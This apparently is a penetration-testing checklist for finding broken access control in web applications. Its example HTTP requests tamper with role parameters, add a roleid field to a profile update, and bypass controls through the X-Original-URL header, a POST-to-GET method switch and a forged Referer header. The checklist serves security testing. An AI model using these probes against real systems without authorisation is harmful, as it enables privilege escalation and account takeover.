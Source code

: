 # Broken Access Control

## Methodology

* [ ] **User role controlled by request parameter**:

```bash
# GET:
GET /login/home.jsp?admin=true
GET /login/home.jsp?role=1
# POST:
POST /login/login.php

username=test&password=test&role=1
```

* [ ] **User role can be modified in user profile**: Add parameters like **roleid**, **id**, **admin** with values like "**true**", "**1**", "**0**", "**yes**", etc. when trying to update our profile with some functionality.

```bash
POST /update/email

email=test@test.com&roleid=1 # Add roleid
```

* [ ] URL-based access control can be circumvented:

```
POST / HTTP/1.1
...
X-Original-URL: /admin/change-password?pass=test123
```

* [ ] Method-based access control can be circumvented:

```bash
# Example (POST to GET):
## POST
POST /admin-api/update-roles

username=test&role=admin
## GET
GET /admin-api/update-roles?username=test&role=admin
```

* [ ] Referer-based access control:

```
GET /admin-api/update-roles?username=test&role=admin

Referer: http://website.com/admin
```

* [ ] [IDOR](idor.md)
